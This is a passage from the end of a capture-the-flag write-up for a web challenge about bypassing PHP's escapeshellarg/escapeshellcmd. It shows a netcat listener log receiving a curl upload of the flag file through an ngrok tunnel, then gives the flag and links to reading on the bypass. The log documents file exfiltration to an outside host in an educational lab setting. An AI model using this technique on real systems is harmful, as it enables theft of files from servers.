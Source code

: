 **Bingo**.

Output from the `netcat`:

```
listening on [any] 4444 ...

connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58946
POST / HTTP/1.1
Host: 1f106a9e85a2.ngrok.io
User-Agent: curl/7.64.0
Content-Length: 227
Accept: */*
Content-Type: multipart/form-data; boundary=------------------------a588a0571ed8077f
X-Forwarded-For: 138.68.178.56
X-Forwarded-Proto: http
Accept-Encoding: gzip

--------------------------a588a0571ed8077f
Content-Disposition: form-data; name="fg"; filename="flag"
Content-Type: application/octet-stream

CHTB{f1le_r3trieval_4s_a_s3rv1ce}
--------------------------a588a0571ed8077f--
```

# Flag

> **CHTB{f1le_r3trieval_4s_a_s3rv1ce}**

# Additional readings

* [Differences between escapeshellarg and escapeshellcmd](https://stackoverflow.com/a/22739494)
* [How exploit/bypass/use PHP escapeshellarg/escapeshellcmd functions](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)
* [man curl](https://linux.die.net/man/1/curl)